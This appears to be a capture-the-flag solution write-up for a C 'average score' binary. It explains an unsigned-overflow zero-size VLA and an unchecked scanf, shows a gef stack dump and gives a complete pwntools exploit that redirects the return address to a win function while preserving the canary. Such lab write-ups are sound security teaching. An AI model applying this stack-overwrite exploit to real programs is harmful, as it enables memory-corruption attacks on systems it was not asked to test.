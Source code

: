 # An Average Challenge -- Solution

The simple binary allows the user to enter some number of integers and proceeds to calculate their average.

Examination of the source code reveals two issues we can take advantage of:

1. Variable `n` used to store the number of players is an unsigned 64-bit integer, while the the variable length array is of size `n+1`. Providing SIZE_MAX (or simply -1) as the value of `n`, will overflow and allocate an VLA `score` of size 0 on stack and continue to read the integers in the for loop. 

2. There's no check on the value returned by the first `scanf`, if we give a string "n" as input when an integer is expected, `score[i]` will remain unchanged and "n" will be consumed by the subsequent `scanf`. This gives us the ability to read the array value and than either provide the same value or change it. 


```c
void vuln() {
  size_t n;
  printf("Enter number of players:\n");
  scanf("%lu", &n);

  int score[n+1];
  score[0] = 0;
  
  for (int i=1; i<=n; i++) {
    char response;
    do {
      printf("Enter score for player %d:\n", i);
      scanf("%d", &score[i]);
      printf("You entered %d. Is this ok (y, n)?:\n", score[i]);
      scanf(" %c", &response);
    } while (response != 'y');
  }

  int total = 0;
  for (int i=1; i<=n; i++) 
    total += score[i];
  printf("Average score is %lf.\n", total/(double)n);
}
```

Hence, we can examine and abitrarily change the stack frame of the `vuln` function. 

The plan is now to simply change the return address to point to the `win` function. Since [ASLR](https://ctf101.org/binary-exploitation/address-space-layout-randomization/) is used, we need to read the old return address and add the offset of the `win` function. Also, we must make sure not the modify the [stack canary](https://ctf101.org/binary-exploitation/stack-canaries/). Another, technical detail is that the stack pointer needs to be [aligned to a 16-byte boundary before function call](https://www.ctfnote.com/pwn/linux-exploitation/rop/stack-alignment). Hence, we need a mini [ROP](https://ctf101.org/binary-exploitation/return-oriented-programming/) chain instead of a direct return to the `win` function. Finally, we need to modify the value of local variable `n` in order for the loop to terminate.

The stack layout and the offsets are easily found using a debugger.

```
gef➤  telescope $rsp -l 0x10
0x007ffe23725050│+0x0000: 0x0000000000000000     ← $rbx, $rsp
0x007ffe23725058│+0x0008: 0x007f42dee0b760  →  0x00000000fbad2887
0x007ffe23725060│+0x0010: 0xffffffffffffffff
0x007ffe23725068│+0x0018: 0x0000000000000000
0x007ffe23725070│+0x0020: 0x007f42dee072a0  →  0x0000000000000000
0x007ffe23725078│+0x0028: 0x9f995a0b49077500
0x007ffe23725080│+0x0030: 0x007f42dee0b760  →  0x00000000fbad2887
0x007ffe23725088│+0x0038: 0x0000000000000000
0x007ffe23725090│+0x0040: 0x00558097000890  →  <_start+0> xor ebp, ebp
0x007ffe23725098│+0x0048: 0x007ffe237251a0  →  0x0000000000000001
0x007ffe237250a0│+0x0050: 0x0000000000000000
0x007ffe237250a8│+0x0058: 0x0000000000000000
0x007ffe237250b0│+0x0060: 0x007ffe237250c0  →  0x00558097000c40  →  <__libc_csu_init+0> push r15         ← $rbp
0x007ffe237250b8│+0x0068: 0x00558097000c33  →  <main+54> mov eax, 0x0
0x007ffe237250c0│+0x0070: 0x00558097000c40  →  <__libc_csu_init+0> push r15
0x007ffe237250c8│+0x0078: 0x007f42dea40c87  →  <__libc_start_main+231> mov edi, eax
gef➤  info address win
Symbol "win" is at 0x55809700099a in a file compiled without debugging.
gef➤  print 0x00558097000c33-0x55809700099a
$1 = 0x299
```

Putting it all together:
```python
#!/usr/bin/env python3

from pwn import *

def conn():
    context.update(arch='amd64', os='linux', terminal=['tmux', 'new-window'])
    if args.REMOTE:
        p = remote('0.cloud.chals.io', 11114)
    else:
        p = process('./chall')
    return p

p = conn()

p.sendlineafter(b':', b'-1')
for i in range(33):
    p.sendlineafter(b':', b'n')
    p.recvuntil(b'You entered')
    v = p.recvuntil(b'.')
    v = int(v[:-1])
    print('{} {:08x}'.format(i, v))
    if i == 7:
        v = 33
    elif i == 8:
        v = 0
    elif i == 29:
        low = v
        v += 6
    elif i == 30:
        high = v
    elif i == 31:
        v = low - 0x299
    elif i == 32:
        v = high  
    p.sendlineafter(b':', str(v).encode('ascii'))
    p.sendlineafter(b'?:', b'y')

p.interactive()
```